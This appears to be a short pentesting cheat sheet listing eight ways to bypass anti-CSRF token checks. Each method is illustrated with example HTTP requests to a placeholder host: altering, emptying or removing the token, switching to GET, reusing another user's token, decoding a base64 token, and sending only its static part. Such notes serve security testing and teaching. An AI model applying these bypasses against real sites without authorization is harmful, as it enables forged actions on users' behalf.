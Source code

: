 # Bypass CSRF

1. Change single character
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

2. Sending empty value of token
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=
```

3. Replace the token with same length
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaabaa
```
4. Changing POST / GET method
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
...
```

5. Remove the token from request
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456
```

6. Use another user's valid token
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

7. Try to decrypt hash
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=MTIzNDU2
```
MTIzNDU2 => 123456 with base64

8. Sometimes anti-CSRF token is composed by 2 parts, one of them remains static while the others one dynamic
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=vi802jg9f8akd9j123
```
When we register again, the request like this
```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=vi802jg9f8akd9j124
```
If you notice "vi802jg9f8akd9j" part of the token remain same, you just need to send with only static part
